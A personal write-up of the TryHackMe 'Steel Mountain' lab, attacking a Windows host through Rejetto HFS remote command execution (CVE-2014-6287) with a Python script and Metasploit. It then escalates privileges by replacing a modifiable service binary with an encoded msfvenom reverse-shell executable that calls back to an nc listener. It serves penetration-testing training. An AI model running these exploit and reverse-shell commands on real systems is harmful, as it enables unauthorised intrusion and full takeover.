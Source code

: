 ```yaml
---
layout: md
title: TryHackMe Steelmountain room
description: 
tags: ['security', 'tryhackme']
terms: ['linux', 'security', 'thm']
---
```


{% include project-headers.html %}

Attacking a Windows based machine.

Includes:
- Recon
  - nmap
  - web apps
  - searchsploit
- Exploit
  - metasploit
- Privilege esculation
  - Enumeration
  - Misconfiguration & exploiting services
  - msfvenom

#### Nmap

Use nmap to scan windows machine. `-Pn` is specified because windows was ignoring icmp requests.

```bash
$> sudo nmap -sS -sV -Pn -vv 10.10.30.80 -oA nmap-results.txt
...

PORT      STATE SERVICE            REASON          VERSION
80/tcp    open  http               syn-ack ttl 127 Microsoft IIS httpd 8.5
135/tcp   open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 127
8080/tcp  open  http               syn-ack ttl 127 HttpFileServer httpd 2.3
49152/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49163/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
```

#### Search for exploits

Find exploits related to the service running on port 8080, Rejetto Http File Server 2.3.

```bash
$> searchsploit "httpfileserver"
...

Rejetto HttpFileServer 2.3.x - Remote Command Execution (3) | windows/webapps/49125.py

$> searchsploit -p windows/webapps/49125.py
[CVE2014-6287](https://www.exploit-db.com/exploits/39161)
```

We can mirror the script shown in searchsploit and take a look at what it does. It just forms a url with a specific search query parameter that allows for remote code execution and makes a request to the service to perform that action.

```bash
$> searchsploit -m windows/webapps/49125.py
$> mv 49125.py command_exec.py

$> python3 command_exec.py 10.10.30.80 8080 whoami
http://10.10.30.80:8080/?search=%00{.+exec|whoami.}
```

The room tells us to use metasploit to perform the exploit though, maybe I will revisit scripting the exploit myself at a later date.

#### Metasploit

Using metasploit to exploit [`CVE2014-6287`](https://www.exploit-db.com/exploits/39161).

```bash
$> sudo msfconsole
msfconsole> search cve:2014-6287
...
0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

msfconsole> use 0 
msfconsole> show options
...

msfconsole> set RHOSTS <ip>
msfconsole> set RPORT 8080
msfconsole> exploit

meterpreter> 
```
This gives us a meterpreter shell as bill now.

#### Enumeration

Performing enumeration to find possible privilege esculation attack vectors using [`PowerUp`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1).

```bash
$> wget -c https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
meterpreter> upload /opt/PowerUp.ps1

meterpreter> load powershell
meterpreter> powershell_shell
```

```powershell
PS >. .\PowerUp.ps1
PS > Invoke-AllChecks
...

ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files
```

This shows us a service called `AdvancedSystemCareService9` the our user can restart and also has write access to the directory, so we can override the existing executable with our own.

#### `msfvenom` Reverse shell

Creating the reverse shell exe
```bash
$> msfvenom -p windows/shell_reverse_tcp LHOST=10.9.7.128 LPORT=4444 -e x86/shikata_ga_nai -f exe -o msfvenom_reverse_shell.exe
```

Create a listener
```bash
$> nc -lvnp 4444
```

Upload and execute as a service
```bash
meterpreter> upload /opt/msfvenom_reverse_shell.exe
meterpreter> powershell_shell

PS> net stop AdvancedSystemCareService9
PS> cp .\msfvenom_reverse_shell.exe 'C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe'

PS> net start AdvancedSystemCareService9
```

And we have an admin shell via our netcat listener